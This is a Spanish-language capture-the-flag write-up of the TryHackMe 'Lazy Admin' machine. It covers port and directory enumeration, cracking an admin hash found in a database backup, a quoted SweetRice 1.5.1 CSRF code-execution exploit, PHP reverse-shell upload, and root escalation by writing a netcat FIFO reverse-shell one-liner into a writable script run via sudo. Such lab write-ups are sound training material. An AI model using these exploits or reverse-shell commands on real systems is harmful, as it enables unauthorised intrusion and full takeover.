# Lazy Admin WriteUp
### Español & English



## Enumeración

#### :ship: Nmap - Enumeración de puertos
Para la enumeración de puertos de la máquina utilizaremos nmap, una herramienta que nos permite scanear los puertos abiertos y los servicios que corren en una dirección IP. Comenzaremos con enumerar los primeros 1000 puertos con el siguiente comando:

```console
kimera@vault:~/Machines/THM/LazyAdmin/nmap$ nmap -n -T4 -p 1-1000 10.10.109.87 -oN portenum

Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:21 UTC
Nmap scan report for 10.10.109.87
Host is up (0.076s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Con `-n` especificamos que no se realice nunca la resolución de DNS lo que agiliza el proceso de escaneo, con `-T4` especificamos el nivel de agresividad y evitamos que el tiempo de expiración de los sondeos en los puertos TCP no excedan de 10ms. Por útltimo guardamos los resultados en el archivo `portenum` en formato nmap con el argumento `-oN`.


Ahora procedemos con la enumeración de los servicios y sus versiones de cada uno de los puertos abiertos que previamente habiamos encontrado:

```console
kimera@vault:~/Machines/THM/LazyAdmin/nmap$ nmap -sC -sV -p22,80 10.10.109.87 -oN portdetails

Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-14 22:38 UTC
Nmap scan report for 10.10.109.87
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.06 seconds
```

#### :page_with_curl: Wfuzz - Enumeración de directorios

Como podemos observar existe un servicio http por el puerto 80 al que podemos acceder con la URL `http://10.10.109.87:80`en nuestro navegador:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/index.png)

Accedemos a la página de defecto del servidor Apache2.

En este punto comencé a buscar archivos `robots.txt`, `login.php`o directorios como `/uploads` que son bastante counes en los CTFs, pero no obtuve resultados.

Para la enumeración de directorios utilizaremos wfuzz como herramienta de fuzzeo. Las wordlists que empleé fueron dos, con la primera (`/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`) no obtuve resultados ya sin especificar extensión o con las extensiones `php`y `html`. Con la segunda wordlist (`/usr/share/wfuzz/wordlist/general/common.txt`) si que salieron resultados:

```console
kimera@vault:~/Machines/THM/LazyAdmin/web$ wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc=404,302 http://10.10.109.87/FUZZ

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.98.202/FUZZ
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                                                   
===================================================================

000000204:   301        9 L      28 W     314 Ch      "content"                                                                                                                                                                 

Total time: 15.05663
Processed Requests: 949
Filtered Requests: 948
Requests/sec.: 63.02869
```

Si fuzzeamos de nuevo este directorio podemos acceder a otros archivos ocultos:

```console
kimera@vault:~/Machines/THM/LazyAdmin/web$ wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/common.txt --hc=404,302 http://10.10.98.202/content/FUZZ

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.98.202/content/FUZZ
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                                                                                                                   
===================================================================

000000412:   301        9 L      28 W     321 Ch      "images"                                                                                                                                                                  
000000416:   301        9 L      28 W     318 Ch      "inc"                                                                                                                                                                     
000000454:   301        9 L      28 W     317 Ch      "js"                                                                                                                                                                      

Total time: 21.64260
Processed Requests: 949
Filtered Requests: 946
Requests/sec.: 43.84869
```


Primero revisamos la URL `http://10.10.109.87/content`, donde podemos deducir que se utiliza el gestor de contenido SweetRice:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/sweetrice.png)

Al inspeccionar la página podemos encontrar un link de un archivo escrito en JavaScript (`.js`) debajo del tag de <title>.
Si nos fijamos en la ubicación del archivo podemos encontrarnos con el directorio que previamente habiamos fuzzeado.
  
Revisando el archivo `SweetRice.js` se ve una versión desde el que se utiliza el script (`0.5.4`). Con la idea de encontrar credenciales, con el atajo `Ctrl+F`filtramos la palabra `pass` con la que se obtienen dos resultados, sin embargo no hay ninguna contraseña o usuario.

Si revisas cuidadosamente los demás scripts alojados en `http://10.10.109.87/content/js`puedes sacar también el directorio de `/images`.
Mirando los archivos en `/images`no encontramos nada que nos revele datos que puedan vulnerar la máquina.

Por último, nos faltaría revisar el directorio `/inc` en el que encontremos diferentes carpetas y archivos en formato `.php`:


![alt text](https://github.com/k1m3rA/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/inc.png)

Si accedemos al archivo de texto con nombre `lastest.txt`podemos listar una versión, que como dice el nombre sería la más reciente de uno de los servicios que corre la página web. El servicio que habíamos encontrado previamente es el CMS SweetRice. Lo cual nos servirá mas adelante para buscar exploits relacionados con esta versión (`1.5.1`).

También podemos encontrar una carpeta con nombre `mysql_backup`, dentro de esa carpeta podemos descargar la copia de seguridad de una base de datos:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/mysql.png)

Con el comando `strings`listamos todos los caracteres imprimibles del archivo:

```console
kimera@vault:~/Machines/THM/LazyAdmin/web$ strings mysql_bakup_20191129023059-1.5.1.sql 
```

![alt text](https://github.com/k1m3rA/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/creds.png) 

Si buscamos entre los resultados podemos encontrar una línea con el nombre de usuario de la cuenta admin (`manager`) y un hash md5 de la contraseña (`42f749ade7f9e195bf475f37a44cafcb`). El hash lo podemos decodificar [aquí](https://crackstation.net/).

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/hash.png)

## Exploitation

#### :collision:Método - 1


Como ya obtuvimos qué versión de SweetRice se está empleando podemos comprobar si ésta es vulnerable. Una simple búsqueda en Google nos dará varios resultados:

![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/google.png)

En este método nos centraremos en el tercer enlace, el cual nos detalla el procedimiento a seguir para obtener un Code Execution:

```
<!--
# Exploit Title: SweetRice 1.5.1 Arbitrary Code Execution
# Date: 30-11-2016
# Exploit Author: Ashiyane Digital Security Team
# Vendor Homepage: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1


# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
# A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo(); 
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save"
method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
</textarea>
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php
  -->
```

Tal y como lo describe necesitamos tener acceso a una cuenta admin del CMS para luego acceder al panel de ads. Una vez ahí subir el codigo que nos dará una reverse shell sustituyendo `<?php echo '<h1> Hacked </h1>'; phpinfo();?>`por nuestro código. En mi caso utilicé `/usr/share/webshells/php/php-reverse-shell.php` cambiando los parámetros de la IP con mi dirección y el puerto por el 1234.


![alt text](https://github.com/k1m3rA321/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/exploit1.png)


Una vez hayamos subido el archivo ponemos en escucha el puerto `1234` con netcat:



```console
kimera@vault:~/Machines/THM/LazyAdmin/exploit$ nc -nlvp 1234
listening on [any] 1234 ...
```

Y entramos en la URL donde se aloja el archivo que recién subimos: `http://10.10.109.87/content/inc/ads/reverse.php`. Con esto deberíamos haber obtenido una shell.

#### :collision:Método - 2

Para este segundo método utilizaremos el primer enlace de la búsqueda que hicimos previamente. Este nos proprciona un exploit escrito en Python, el cual, cuando lo ejectutemos con el comando `python nombreexploit.py`, nos pedirá el host que en nuestro caso es `10.10.109.87/content`que nos lo pedirá entre comillas, así como el resto de parámetros necesarios: usuario, contraseña, nombre del archivo que queramos subir. En mi caso utilizaré de nuevo una reverse shell en php.

Ponemos en escucha el puerto con el que configuramos la reverse shell y visitamos la URL que nos proporciona el output del exploit.

#### Primera Flag

Con el comando `id`podemos ver que somos el usuario `www-data`. Para la escalación de privilegios procedemos con alguna enumeracón básica de linux. Con el comando `sudo -l`podemos ver que comandos podemos correr con permisos de root.

Nos dirigimos al directorio home para ver a que carpeta de directorios de usuario tenemos acceso y vemos que la de itguy es accesible. Dentro de este usuario encontramos la primera flag:

![alt text](https://github.com/k1m3rA/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/user.png)

#### Escalación de privilegios

```console
$ sudo -l

Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Como podemos ver, el usuario www-data puede ejecutar un archivo escrito en perl. Para previsualizar el contenido de este archivo podemos hacer un cat:

```console
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
Al revisar el código vemos que edita otro archivo `sh`del directorio `etc`, el cual si revisamos los permisos con `ls -l /etc/copy.sh`tenemos permiso para escribir contenidos en él. Con el comando `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $TU_IP 5757 >/tmp/f" > /etc/copy.sh`.
Ahora ejecutamos el archivo en perl, no sin antes poner en escucha el puerto 5757:
```console
sudo /usr/bin/perl /home/itguy/backup.pl
```
#### Segunda Flag

Si hacemos in id ya somos usuario root y ya podemos acceder al /root/root.txt:
![alt text](https://github.com/k1m3rA/WriteUps/blob/master/TryHackMe/LazyAdmin/resources/img/rootflag.png)




